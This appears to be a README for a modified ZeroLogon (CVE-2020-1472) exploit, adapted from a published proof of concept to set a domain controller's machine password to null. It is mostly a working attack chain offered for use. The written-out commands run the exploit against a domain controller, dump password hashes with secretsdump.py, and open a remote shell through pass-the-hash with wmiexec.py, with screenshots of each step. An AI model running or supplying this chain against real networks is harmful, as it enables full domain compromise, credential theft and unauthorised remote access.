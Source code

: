 # ZeroLogon - Exploit and Example
Modified the test PoC from Secura, CVE-2020-1472, in order to change the machine's password to null

## Run the exploit
`./zerologon_NULLPASS.py <dc-name> <dc-ip>`
![](https://i.imgur.com/R4Jui6O.png)

## Dump the hashes
`secretsdump.py -no-pass <dc-name>\$@<dc-ip>`
![](https://i.imgur.com/7GaZ9NY.png)

## Pass-The-Hash for shell access
`wmiexec.py -hashes <LM:NT> <username>@<ip>`
![](https://i.imgur.com/NCFVJ1o.png)
